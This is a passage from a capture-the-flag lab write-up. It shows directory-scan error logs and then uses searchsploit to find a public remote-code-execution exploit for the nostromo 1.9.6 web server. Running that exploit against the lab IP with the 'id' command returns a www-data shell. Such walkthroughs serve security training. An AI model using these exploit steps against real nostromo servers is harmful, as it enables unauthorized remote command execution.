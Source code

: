 ```shell
[ERROR] 2020/04/11 20:07:07 [!] Get http://10.10.10.165/.well-known/dnt: dial tcp 10.10.10.165:80: connect: connection refused
[ERROR] 2020/04/11 20:07:07 [!] Get http://10.10.10.165/.well-known/carddav: dial tcp 10.10.10.165:80: connect: connection refused

---

```


## 2. Getting User
Using searchsploit, we can find a RCE for `nostromo 1.9.6`.
```shell
root@kali:~# searchsploit nostromo
---------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                    |  Path
                                                                                  | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)              | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                            | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution              | exploits/linux/remote/35466.sh
---------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Go to the Exploit-db page for <a href="https://www.exploit-db.com/exploits/47837">nostromo 1.9.6 - Remote Code Execution</a>.<br>
We can download the POC code and the usage is quite simple.
```shell
root@kali:~# python 47837.py 10.10.10.165 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    




HTTP/1.1 200 OK
Date: Sat, 11 Apr 2020 17:18:35 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
